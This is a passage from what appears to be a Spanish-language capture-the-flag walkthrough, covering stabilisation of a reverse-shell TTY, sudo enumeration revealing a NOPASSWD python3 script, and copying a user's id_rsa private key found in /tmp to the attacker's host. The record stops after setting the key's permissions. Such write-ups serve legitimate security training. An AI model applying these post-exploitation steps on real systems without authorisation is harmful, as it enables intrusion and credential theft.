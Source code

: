 ### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for pablo on 31379bb8b4c2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pablo may run the following commands on 31379bb8b4c2:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/nllns/clean_symlink.py *.jpg
```

Vemos que podemos ejecutar el binario `python3` en la ruta absoluta establecida como el usuario `root`.

Si vamos a la carpeta `/tmp` veremos esto de aqui:

```
-rw------- 1 pablo pablo    3381 May  2 16:58 id_rsa
```

Vamos a probar si fuera la clave `PEM` del usuario `root`, por lo que nos la vamos a copiar y pegar en nuestra maquina `host`.

```shell
nano id_rsa

#Dentro del nano

<CLAVE_ID_RSA>
```

Lo guardamos y establecemos los permisos necesarios.

```shell
chmod 600 id_rsa
```
